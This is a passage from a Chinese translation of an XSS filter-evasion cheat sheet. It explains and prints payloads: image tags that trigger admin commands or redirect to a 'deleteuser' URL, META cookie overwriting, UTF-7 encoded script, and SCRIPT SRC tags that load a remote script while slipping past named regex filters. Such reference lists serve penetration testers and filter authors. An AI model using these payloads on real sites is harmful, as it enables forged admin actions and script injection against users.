 

### 2.80.    嵌入命令的IMAGE

当页面受密码保护并且这个密码保护同样适用于相同域的不同页面时有效，这可以用来进行删除用户，增加用户（如果访问页面的是管理员的话），将密码发送到任意地方等等。。。这是一个较少使用当时更有价值的XSS攻击向量：


<IMG SRC="<http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode>">




**2.80.1. 嵌入命令的IMAGE II**

这更加可怕因为这不包含任何可疑标识，除了它不在你自己的域名上。这个攻击向量使用一个302或304（其他的也有效）来重定向图片到指定命令。所以一个普通的<IMG SRC="httx://badguy.com/a.jpg">对于访问图片链接的用户来说也有可能是一个攻击向量。下面是利用.htaccess（Apache）配置文件来实现攻击向量。（感谢Timo提供这部分。）：


Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser




### 2.81.    Cookie篡改

尽管公认不太实用，但是还是可以发现一些允许使用META标签的情况下可用它来覆写cookie。另外的例子是当用户访问网站页面时，一些网站读取并显示存储在cookie中的用户名，而不是数据库中。当这两种场景结合时，你可以修改受害者的cookie以便将JavaScript注入到其页面中（你可以使用这个让用户登出或改变他们的用户状态，甚至可以让他们以你的账户登录）：


<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">




### 2.82.    UTF-7编码

如果存在XSS的页面没有提供页面编码头部，或者使用了任何设置为使用UTF-7编码的浏览器，就可以使用下列方式进行攻击（感谢Roman Ivanov提供）。这在任何不改变编码类型的现代浏览器上是无效的，这也是为什么标记为完全不支持的原因。Watchfire在Google的自定义404脚本中发现这个问题：


<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-




### 2.83.    利用HTML引号包含的XSS


这在IE中测试通过，但还得视情况而定。它是为了绕过那些允许"<SCRIPT>"但是不允许"<SCRIPT SRC..."形式的正则过滤即"/<script[^>]+src/i"：

<SCRIPT a=">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

这是为了绕过那些允许"<SCRIPT>"但是不允许"<SCRIPTSRC..."形式的正则过滤即" /script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'"\s]+))?)+\s|\s)src/i"（这很重要，因为在实际环境中出现过这种正则过滤）：

<SCRIPT =">" SRC="httx://xss.rocks/xss.js"></SCRIPT>

另一个绕过此正则过滤" /script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'"\s]+))?)+\s|\s)src/i"的XSS：

<SCRIPT a=">" '' SRC="httx://xss.rocks/xss.js"></SCRIPT>

又一个绕过正则过滤" /script((\s+\w+(\s*=\s*(?:"(.)*?"|'(.)*?'|[^'"\s]+))?)+\s|\s)src/i"的XSS。尽管不想提及防御方法，但如果你想允许<SCRIPT>标签但不加载远程脚本，针对这种XSS只能使用状态机去防御（当然如果允许<SCRIPT>标签的话，还有其他方法绕过）：
